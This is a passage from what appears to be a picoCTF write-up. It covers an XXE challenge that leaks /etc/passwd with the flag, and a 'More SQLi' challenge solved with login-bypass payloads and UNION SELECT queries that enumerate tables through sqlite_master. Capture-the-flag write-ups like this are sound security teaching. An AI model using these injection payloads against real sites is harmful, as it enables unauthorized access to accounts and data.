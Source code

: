 ```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```
`flag: picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}`

### More SQLi
`Description`
```
Can you find the flag on this website.
Try to find the flag here.
``` 

As soon as I accessed the login interface, I tested logging in using a `SQL Injection payload` with `admin` to see if it would work.
```
username: admin' or 1=1 --
password: 1
```
`result`
```
username: admin' or 1=1 --
password: 1
SQL query: SELECT id FROM users WHERE password = '1' AND username = 'admin' or 1=1 --'
```

It seems to be reversed, so this time I changed it.
```
username: admin
password: ' or 1=1 --
```

![image](https://hackmd.io/_uploads/rJDt5yUq1g.png)

Finally, I accessed a new page, which seemed to be used for querying information. So, I immediately tried a payload to list all tables in the current database to see if it was exploitable
`payload`
```
' UNION SELECT name, NULL, NULL FROM sqlite_master WHERE type='table'--
```

![image](https://hackmd.io/_uploads/HkNDskL91l.png)

After some time of searching, I found that the `flag` was in the `more_table` table.
`payload`
```
' UNION SELECT sql, NULL, NULL FROM sqlite_master WHERE name='more_table'--
```
